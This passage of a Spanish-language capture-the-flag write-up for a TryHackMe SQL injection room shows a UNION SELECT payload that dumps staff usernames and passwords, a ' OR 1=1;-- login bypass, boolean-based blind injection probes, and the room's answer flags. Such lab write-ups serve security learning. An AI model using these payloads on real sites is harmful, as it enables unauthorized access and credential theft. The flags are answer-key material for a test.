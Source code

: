 #### Sacamos todos los users de la tabla

```
https://website.thm/article?id=0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users

2
Article ID: 1
admin:p4ssword
martin:pa$$word
jim:work123
```


```
THM{SQL_INJECTION_3840}
```

## Task 6 - Blind SQLi - Authentication Bypass

### What is the flag after completing level two? (and moving to level 3)

	THM{SQL_INJECTION_9581}

#### Tenemos la consulta original

```
`select * from users where username='%username%' and password='%password%' LIMIT 1;`
```

#### Iyectar para bypass del login

```
username: admin
password: ' OR 1=1;--

select * from users where username='admin' and password='' OR 1=1;--' LIMIT 1;

```

#### Obtenemos la flag

```
THM{SQL_INJECTION_9581}
```

#### Task 7 Blind SQLi - Boolean Based

`select * from users where username = '%username%' LIMIT 1;`

#### Intentamos adivinar el numero de columnas, son 3

```
https://website.thm/checkuser?username=admin123' UNION SELECT 1;-- 
{"taken":false}

https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3;-- 
{"taken":true}
```
